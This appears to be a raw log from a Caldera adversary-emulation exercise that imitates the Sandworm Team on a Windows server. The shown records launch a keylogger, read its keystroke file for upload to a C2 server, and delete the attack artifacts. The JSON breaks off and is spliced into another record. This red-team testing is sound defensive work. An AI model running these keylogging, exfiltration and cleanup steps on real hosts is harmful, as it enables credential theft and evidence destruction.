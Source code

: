 ```
ial-access","technique_name":"Input Capture: Keylogging","technique_id":"T1056.001"},"output":{"stdout":"Executed background process cmd.exe with PID 1096 and args: /k, C:\\Windows\\System32\\mslog.exe -o C:\\Windows\\System32\\mslog.txt","stderr":"","exit_code":"0"},"agent_reported_time":"2024-11-12T08:12:56Z"},{"command":"dir C:\\Windows\\System32\\mslog.txt","plaintext_command":"dir C:\\Windows\\System32\\mslog.txt","delegated_timestamp":"2024-11-12T08:12:57Z","collected_timestamp":"2024-11-12T08:13:59Z","finished_timestamp":"2024-11-12T08:13:59Z","status":1,"platform":"windows","executor":"cmd","pid":6272,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"5c034afc-1f10-4e92-8d77-afed302d7de5","ability_name":"Sandworm Verify Keystroke File","ability_description":"Verifies that the mslog.txt file was created.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"credential-access","technique_name":"Input Capture: Keylogging","technique_id":"T1056.001"},"output":{"stdout":" Volume in drive C has no label. Volume Serial Number is 3475-1A3C Directory of C:\\Windows\\System32","stderr":"File Not Found","exit_code":"1"},"agent_reported_time":"2024-11-12T08:13:59Z"},{"command":"type C:\\Windows\\System32\\mslog.txt","plaintext_command":"type C:\\Windows\\System32\\mslog.txt","delegated_timestamp":"2024-11-12T08:14:02Z","collected_timestamp":"2024-11-12T08:14:57Z","finished_timestamp":"2024-11-12T08:14:57Z","status":1,"platform":"windows","executor":"cmd","pid":2016,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"854c63de-cc94-4581-81b0-4c2292123898","ability_name":"Sandworm Upload Keystroke File","ability_description":"Reads contents of the mslog.txt keystroke file and uploads the file to the C2 server.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"exfiltration","technique_name":"Exfiltration Over C2 Channel","technique_id":"T1041"},"output":{"stdout":"","stderr":"The system cannot find the file specified.","exit_code":"1"},"agent_reported_time":"2024-11-12T08:14:57Z"},{"command":"taskkill /F /IM mslog.exe","plaintext_command":"taskkill /F /IM mslog.exe","delegated_timestamp":"2024-11-12T08:15:02Z","collected_timestamp":"2024-11-12T08:15:37Z","finished_timestamp":"2024-11-12T08:15:37Z","status":1,"platform":"windows","executor":"cmd","pid":6276,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"65639630-733c-4179-8543-2c64cb577ca0","ability_name":"Sandworm Stop Keystroke Logger","ability_description":"Terminates the mslog.exe keystroke process.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"credential-access","technique_name":"Input Capture: Keylogging","technique_id":"T1056.001"},"output":{"stdout":"","stderr":"ERROR: The process \"mslog.exe\" not found.","exit_code":"128"},"agent_reported_time":"2024-11-12T08:15:35Z"},{"command":"del /Q C:\\Windows\\System32\\oradump.exe C:\\Windows\\System32\\mslog.exe C:\\Windows\\System32\\mslog.txt","plaintext_command":"del /Q C:\\Windows\\System32\\oradump.exe C:\\Windows\\System32\\mslog.exe C:\\Windows\\System32\\mslog.txt","delegated_timestamp":"2024-11-12T08:15:42Z","collected_timestamp":"2024-11-12T08:16:13Z","finished_timestamp":"2024-11-12T08:16:13Z","status":0,"platform":"windows","executor":"cmd","pid":1020,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"d91962e6-cb75-4f29-b2ce-36db15415e40","ability_name":"Sandworm Cleanup Artifacts","ability_description":"Sandworm Team has used backdoors that can delete files used in an attack from an infected system.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversar[{"command":"whoami.exe","plaintext_command":"whoami.exe","delegated_timestamp":"2024-11-12T08:06:26Z","collected_timestamp":"2024-11-12T08:07:23Z","finished_timestamp":"2024-11-12T08:07:23Z","status":0,"platform":"windows","executor":"proc","pid":5616,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"e870a202-354f-4214-82e6-c5f88cb33b65","ability_name":"Sandworm Windows Discovery - Current User","ability_description":"Sandworm Team has collected the username from a com
```